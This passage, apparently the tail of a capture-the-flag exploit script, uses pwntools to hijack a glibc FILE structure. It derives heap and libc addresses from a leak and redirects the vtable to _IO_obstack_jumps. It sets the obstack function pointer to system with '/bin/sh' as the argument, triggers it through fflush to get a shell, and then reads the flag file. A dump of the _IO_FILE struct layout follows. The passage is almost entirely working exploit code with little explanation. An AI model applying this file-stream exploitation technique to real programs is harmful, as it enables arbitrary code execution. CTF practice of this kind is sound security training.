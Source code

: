 ```py
    libc.address = leak

    leak_main_arena = leak + 0x1ed5a0

    heap = leak_ptr(pwn.p64(leak_main_arena)) - 0x2a0
    pwn.log.info(f"heap: {hex(heap)}")

    _IO_obstack_jumps = leak + 0x1E9260
    pwn.log.info(f"_IO_obstack_jumps: {hex(_IO_obstack_jumps)}")

    # edit vtable => _IO_obstack_jumps
    write_ptr(pwn.p64(_IO_obstack_jumps - 8 * 9), File.vtable)
    write_ptr(pwn.p64(heap + 0x2a0), File.obstack)

    partial_write(pwn.p8(0xff), File._IO_read_base)

    write_ptr(pwn.p64(libc.sym.system), obstack.chunkfun) # fn ptr, system
    write_ptr(pwn.p64(next(libc.search(b'/bin/sh'))), obstack.extra_arg) # arg
    partial_write(pwn.p8(True), obstack.use_extra_arg)

    fflush()
    # system("/bin/sh")

    io.sendline(b"cat flag-f81d1f481db83712a1128dc9b72d5503.txt")
    io.interactive()

if __name__ == "__main__":
    main()

"""
type = struct _IO_FILE {
/*      0      |       4 */    int _flags;
/* XXX  4-byte hole      */
/*      8      |       8 */    char *_IO_read_ptr;
/*     16      |       8 */    char *_IO_read_end;
/*     24      |       8 */    char *_IO_read_base;
/*     32      |       8 */    char *_IO_write_base;
/*     40      |       8 */    char *_IO_write_ptr;
/*     48      |       8 */    char *_IO_write_end;
/*     56      |       8 */    char *_IO_buf_base;
/*     64      |       8 */    char *_IO_buf_end;
/*     72      |       8 */    char *_IO_save_base;
/*     80      |       8 */    char *_IO_backup_base;
/*     88      |       8 */    char *_IO_save_end;
/*     96      |       8 */    struct _IO_marker *_markers;
/*    104      |       8 */    struct _IO_FILE *_chain;
/*    112      |       4 */    int _fileno;
/*    116      |       4 */    int _flags2;
/*    120      |       8 */    __off_t _old_offset;
/*    128      |       2 */    unsigned short _cur_column;
/*    130      |       1 */    signed char _vtable_offset;
/*    131      |       1 */    char _shortbuf[1];
/* XXX  4-byte hole      */
/*    136      |       8 */    _IO_lock_t *_lock;
/*    144      |       8 */    __off64_t _offset;
/*    152      |       8 */    struct _IO_codecvt *_codecvt;
/*    160      |       8 */    struct _IO_wide_data *_wide_data;
/*    168      |       8 */    struct _IO_FILE *_freeres_list;
/*    176      |       8 */    void *_freeres_buf;
/*    184      |       8 */    size_t __pad5;
/*    192      |       4 */    int _mode;
/*    196      |      20 */    char _unused2[20];

```